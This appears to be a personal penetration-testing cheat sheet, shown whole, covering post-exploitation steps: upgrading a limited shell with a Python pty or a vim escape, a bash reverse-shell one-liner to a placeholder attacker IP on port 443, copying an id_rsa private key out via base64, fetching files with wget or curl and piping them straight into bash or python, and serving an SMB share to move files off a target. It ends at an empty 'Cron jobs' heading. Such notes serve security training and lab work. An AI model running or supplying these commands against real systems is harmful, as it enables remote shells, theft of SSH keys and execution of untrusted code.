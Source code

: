 Upgrade from shitty shell
- `python3 -c 'import pty;pty.spawn ("/bin/bash")'`
- `script /dev/null -c bash`


from VIM
`vim -c ':!/bin/sh'`
or `:set shell=/bin/sh` and then `:shell` from inside vim

With some kind of application command execution (SQL, etc)
- `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`
- set up a listened with port 443
- Then continue with python one above
	- won't work if shell dies too quickly

# File Transfers

### No Network Comms

`scp` if ssh is enabled

File Hash and Base64 encoding
- `md5sum id_rsa`
- `cat id_rsa | base64 -w 0;echo`
- Target: `echo -n '[string]' | base64 -d > id_rsa`
- check sum again


### Network Comms

`wget [link] -O [output]`
`curl [link] -o [output]` 
additionally, instead of supplying an out file, you can execute files by piping directly into `python3` or `bash` 

`python3 -m uploadserver` or `http.server`

`php -S [IP:port]`

Impacket smbserver `smbserver.py`
- `impacket-smbserver -smb2support CompData [directory for server location]`
- `CompData` is the name that the target will use to refer to the share.
- To transfer from target (windows example): `move [file] \\[host-IP]\CompData`


### File Transfers with Code

Python
- `python3 -c 'import urllib.request;urllib.request.urlretrieve("[URL to file]", "[output]")'`

PHP
- `php -r '$file = file_get_contents("[file URL]"); file_put_contents("[output]",$file);'`


# Cron jobs
